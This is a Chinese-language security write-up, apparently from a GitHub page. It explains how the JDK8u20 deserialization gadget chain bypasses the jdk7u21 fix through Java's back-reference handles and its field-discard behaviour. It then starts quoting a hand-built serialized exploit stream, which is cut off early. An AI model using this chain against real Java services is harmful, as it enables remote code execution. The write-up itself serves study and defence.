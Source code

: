 ```java
        if (unshared) {
            // REMIND: what type of exception to throw here?
            throw new InvalidObjectException(
                "cannot read back reference as unshared");
        }

        Object obj = handles.lookupObject(passHandle);
        if (obj == unsharedMarker) {
            // REMIND: what type of exception to throw here?
            throw new InvalidObjectException(
                "cannot read back reference to unshared object");
        }
        return obj;
    }
```
> 这个方法会从字节流中读取`TC_REFERENCE`标记段，它会把读取的引用`Handle`赋值给`passHandle`变量，然后传入`lookupObject()`，在`lookupObject()`方法中，如果引用的`handle`不为空、没有关联的`ClassNotFoundException`（`status[handle] != STATUS_EXCEPTION`），那么就返回给定`handle`的引用对象，最后由`readHandle`方法返回给对象。
> 也就是说，反序列化流程还原到`TC_REFERENCE`的时候，会尝试还原引用的`handle`对象。

### 成员抛弃机制
> 在反序列化中，如果当前这个对象中的某个字段并没有在字节流中出现，则这些字段会使用类中定义的默认值，如果这个值出现在字节流中，**但是并不属于对象，则抛弃该值，但是如果这个值是一个对象的话，那么会为这个值分配一个 Handle。**

### 利用这些机制
了解了上面2个机制之后我们就可以想到一个绕过jdk7u21修复方法的机制，即:
1. 使用`BeanContextSupport`，利用其特殊的`readChildren`方法还原一个非法的`AnnotationInvocationHandler`对象，并留下一个Handle
2. 在我们HashObject发生哈希碰撞造成RCE之前还原非法的`AnnotationInvocationHandler`对象，使得之后反序列化相同对象时还原引用的`handle`对象

## exp1
这个exp1来自pwntester师傅，直接通过手动构造反序列化的字节码来写这个畸形的JDK8u20链(真是太强了)，不过理解起来可能会有点困难，利用到了成员抛弃机制，完整源码在[pwntester/JRE8u20_RCE_Gadget](https://github.com/pwntester/JRE8u20_RCE_Gadget):
```java
...
new Object[]{
                STREAM_MAGIC, STREAM_VERSION, // stream headers

                // (1) LinkedHashSet
                TC_OBJECT,
                TC_CLASSDESC,
                LinkedHashSet.class.getName(),
                -2851667679971038690L,
                (byte) 2,              // flags
                (short) 0,             // field count
                TC_ENDBLOCKDATA,
                TC_CLASSDESC,          // super class
                HashSet.class.getName(),
                -5024744406713321676L,
                (byte) 3,              // flags
                (short) 0,             // field count
                TC_ENDBLOCKDATA,
                TC_NULL,               // no superclass

                // Block data that will be read by HashSet.readObject()
                // Used to configure the HashSet (capacity, loadFactor, size and items)
                TC_BLOCKDATA,
                (byte) 12,
                (short) 0,
                (short) 16,            // capacity
                (short) 16192, (short) 0, (short) 0, // loadFactor
                (short) 2,             // size

```